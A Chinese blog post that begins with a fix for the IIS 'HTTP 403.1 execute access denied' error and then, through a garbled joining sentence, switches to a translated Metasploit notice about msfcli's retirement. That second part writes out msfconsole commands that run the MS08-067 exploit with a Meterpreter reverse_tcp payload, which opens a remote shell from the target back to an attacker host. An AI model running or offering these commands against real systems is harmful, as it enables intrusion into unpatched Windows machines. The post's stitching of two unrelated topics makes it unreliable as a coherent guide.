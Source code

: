 ```yaml
---
layout: post
category: binghe-code-hack
title: HTTP 错误 403.1 - 禁止访问：执行访问被拒绝
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: HTTP 错误 403.1 - 禁止访问：执行访问被拒绝
lock: need
---
```


# HTTP 错误 403.1 - 禁止访问：执行访问被拒绝

使用WIN2003 INTERNET信息服务（IIS）管理器，在建立一个网站虚拟目录，结果浏览网页时出现错误，错误提示信息如下：

该页无法显示

您试图从目录中执行 CGI、ISAPI 或其他可执行程序，但该目录不允许执行程序。

请尝试以下操作：

如果您认为该目录应该允许执行访问权限，请与网站管理员联系。

HTTP 错误 403.1 - 禁止访问：执行访问被拒绝。

Internet 信息服务 (IIS)

技术信息（为技术支持人员提供）

转到 Microsoft 产品支持服务并搜索包括“HTTP”和“403”的标题。
打开“IIS 帮助”（可在 IIS 管理器 (inetmgr) 中访问），然后搜索标题为“配置 ISAPI 扩展”、“配置 CGI 应用程序”、“使用网站权限保护站点”和“关于自定义错误消息”的主题。
在 IIS 软件开发工具包 (SDK) 或 MSDN Online Library 中，搜索标题为“Developing ISAPI Extensions”、“ISAPI and CGI”和“Debugging ISAPI Extensions and Filters”的主题。

 经过调试，发觉解决办法其实很简单。解决办法如下：

单击操作系统的开始－－程序－－管理工具－－Interneter服务器管理，在IIS中选择您的站点然后右键－－属性，在“主目录”选项中，查看“执行权限”是否设置为“无”，这里改成“纯脚本”保存即可。

新建网站的时候忘记纯脚本选项的msfcli 不能使用?

msfcli 不能使用，在新版metasploit不再有效。以下翻译自Metasploit 官网。

Hi, 大家好，

   这个一月份，我们做了一份关于 Metasploit 的命令行版本接口版本 Msfcli 的声明，今天我们要对它说再见了。

   取代 Msfcli，我们推荐你在 Msfconsole 使用 -x 选项。

   举个例子，我们如何在一条命令中使用 MS08_067 模块。

```bash
msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```

你也可以把它在msfconsole中分步写或者做成脚本形式 (resource scripts) 或者设置别名来简化输入。

下面举个例子如何在msfconsole中分步使用 MS08_067 模块。

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST [IP]
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [IP]
run
```

上面的命令也可以做成源脚本，然后输入以下命令使用

```bash
msfconsole -r name_of_resource_script.rc
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)